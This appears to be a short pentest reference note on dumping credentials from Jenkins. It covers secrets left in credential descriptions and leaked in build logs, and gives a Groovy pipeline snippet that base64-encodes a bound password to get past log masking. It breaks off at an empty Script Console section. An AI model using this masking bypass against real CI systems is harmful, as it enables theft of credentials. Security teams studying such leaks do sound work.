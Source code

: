 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline


- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )
``` Groovy
stages {
        stage('Curl') {
            steps {
                withCredentials(
                    [usernamePassword(credentialsId: 'mycredentials', usernameVariable: 'user', passwordVariable : 'pass')]
                ) {
                    sh '''
                        echo "$pass" | base64
                    '''
                }
            }
        }
```
- When used without base64
```
[Pipeline] stage
[Pipeline] { (Curl)
[Pipeline] withCredentials
Masking supported pattern matches of $user or $pass
[Pipeline] {
[Pipeline] sh
+ echo ****
****
[Pipeline] }
[Pipeline] // withCredentials
[Pipeline] }
[Pipeline] // stage
```

## Credentials Dumping from Script Console

